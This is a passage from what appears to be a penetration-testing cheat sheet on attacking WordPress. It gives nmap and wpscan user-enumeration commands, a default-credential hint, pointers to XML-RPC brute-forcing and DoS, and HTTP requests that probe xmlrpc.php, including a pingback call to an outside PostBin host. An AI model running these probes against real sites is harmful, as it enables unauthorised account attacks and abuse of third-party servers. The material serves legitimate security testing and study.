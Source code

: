 {% tab title="Tools" %}
we can list the users using the tools listed above:

```bash
#Nmap enum users from uid 1 to 50
nmap --script http-wordpress-users --script-args basepath="/wordpress/path",limit=50 -p 80 <target-ip>

#WpScan enum users from uid 1 to 20
wpscan --rua -e u1-20 --url http://www.vuln.com/wordpress/
```
{% endtab %}
{% endtabs %}

### Brute-force Passwords

{% hint style="info" %}
You may want to try the default password: **admin:password**
{% endhint %}

{% tabs %}
{% tab title="XML-RPC" %}
If `xml-rpc.php` is active you can perform a credentials brute-force or use it to launch DoS attacks to other resources. (You can automate this process[ using this](https://github.com/relarizky/wpxploit) for example).&#x20;

#### Check

To check whether you have access, send the following request. If it returns methods, it is enabled:

```http
POST /xmlrpc.php HTTP/1.1
Host: vulnerable.com
[...]

<?xml version="1.0" encoding="utf-8"?> 
<methodCall> 
<methodName>system.listMethods</methodName> 
<params></params> 
</methodCall>
```

Also, we can use [**PostBin**](https://www.toptal.com/developers/postbin/) to confirm the results.

```http
POST /xmlrpc.php HTTP/1.1
Host: vulnerable.com
[...]

<?xml version="1.0" encoding="utf-8"?>
<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param><value><string>https://www.toptal.com/developers/postbin/xxxxxxxxxxxxx-xxxxxxxxxxxxx</string></value></param>
<param><value><string>http://vulnerable.com</string></value></param>
</params>
</methodCall>
```
